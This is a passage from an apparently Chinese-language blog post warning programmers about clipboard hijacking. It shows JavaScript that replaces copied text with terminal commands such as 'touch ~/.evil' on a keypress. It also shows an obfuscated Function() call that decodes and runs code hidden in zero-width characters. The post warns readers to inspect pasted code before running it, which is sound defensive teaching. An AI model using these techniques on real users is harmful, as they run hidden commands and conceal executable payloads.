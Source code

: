 ```

                console.log('Oops, unable to copy');

              }



              document.body.removeChild(textArea);

            }



            document.addEventListener('keydown', function(event) {

                var ms = 800;  

                var start = new Date().getTime();

                var end = start;

                while(end < start + ms) {

                    end = new Date().getTime();

                } 

                copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');

            });
```

**哎~~~这年头程序猿不好做啊！！！**

**至于防御办法只能警告广大程序猿们，终端是个黑洞啊！！！**

**任何代码复制到终端之前都要加倍的小心谨慎啊！！！**

**最好是先复制到一个第三方的编辑器内看一看，说不准就发现了一些什么奇怪的牛鬼蛇神呢！！！**

比如小编就还见过这样一个大招：


```
Function("‍‌‌‍‍‌‍‍‍‌‌‍‌‌‌‌‍‌‌‍‍‍‌‌‍‌‌‌‍‌‍‌‍‌‌‍‌‌‍‌‍‌‌‍‍‌‍‌‍‌‌‍‌‌‌‍‍‌‌‌‍‌‍‍‍‍‌‍‌‌‌‍‍‌‌‌‍‍‍‌‍‌‌‌‍‌‍‌‍‌‌‍‍‌‍‌‍‌‌‌‍‍‌‍‍‌‌‌‌‍‍‌‍‌‍‌‍‍‌‌‍‌‌‍‍‌‍‌‍‌‌‍‌‌‍‍‍‌‌‍‍‌‍‌‍‌‌‍‍‍‌‌‍‌‌‌‍‌‍‍‍‌‌‍‌‌‌‌‍‌‌‌‍‍‌‍‍‍‌‍‌‍‍‍‍‍‌‍‍‍‌‍‍‌‌‍‍‌‍‍‍‌‌‍‌‍‍‌‍‌‌‌‍‌‌‍‍‌‍‌‌‍‌‌‍‌‌‍‍‌‍‍‍‌‌‍‍‍‍‌‍‌‌‌‍‌‍‍‍‌‌‍‍‍‍‌‍‍‌‍‌‌‍‌‍‌‌‍‍‍‍‌‍‌‌‍‌‍‍‌‍‌‌‍‍‌‍‍‍‍‌‌‌‌‍‌‍‌‍‌‌‌‍‍‍‍‌‍‍‍‌‍‍‍‌‌‌‍‍‍‍‍‌‌‍‌‍‌‍‍‌‌‍‌‌‍‍‍‌‌‌‍‍‍‍‍‌‌‍‌‌‍‍‍‌‌‍‌‍‍‍‍‌‌‍‍‍‌‍‌‍‌‌‌‍‍‍‍‌‍‍‍‌‍‍‌‍‌‌‌‍‌‍‍‌‍‍‍‍‍‍‌‌‍‍‍‌‍‍‌‌‌‍‌‍‌‍‌‌‌‍‌‍‍‍‌‌‌‍‌‍‍‍‌‌‍‌‌‌‌‍‌‌‍‌‌‌‍‍‍‌‍‌‌‌‍‍‌‌‌‍‌‍‌‍‌‌‌‍‍‍‍‍‌‍‌‌‍‌‌‍‌‌‍‍‍‍‌‍‌‌‌‍‍‌‍‍‌‌‍‌‍‍‌‍‌‌‍‍‍‍‌‍‍‌‍‌‌‍‌‍‌‌‌‍‍‍‍‍‌‌‌‍‍‌‍‍‌‌‍‍‌‍‌‍‌‌‌‍‍‌‌‍‌‌‌‍‍‌‌‍‌‌‍‍‌‍‌‍‌‌‍‍‌‍‍‍‍‌‌‌‌‍‌‍‌‌‍‍‌‌‍‍‌‌‍‍‍‍‌‍‌‌‍‌‌‍‍‍‌‌‌‍‍‌‌‍‌‌‍‍‌‍‌‍‌‍‌‌‌‍‌‍‍‌‍‍‍‌‍‍‍‌‍‌‍‍‌‍‍‌‍‌‌‌‍‍‌‌‍‍‍‌‌‍‌‌‍‌‌‍‍‍‌‌‍‌‍‍‌‍‌‌‍‍‍‌‌‍‌‌‍‌‍‌‌‍‍‌‍‌‍‍‍‍‍‌‍‌‍‍‌‍‍‌‌‌‍‌‌".replace(/.{8}/g,function(u){return String.fromCharCode(parseInt(u.replace(/\u200c/g,1).replace(/\u200d/g,0),2))}))();
```
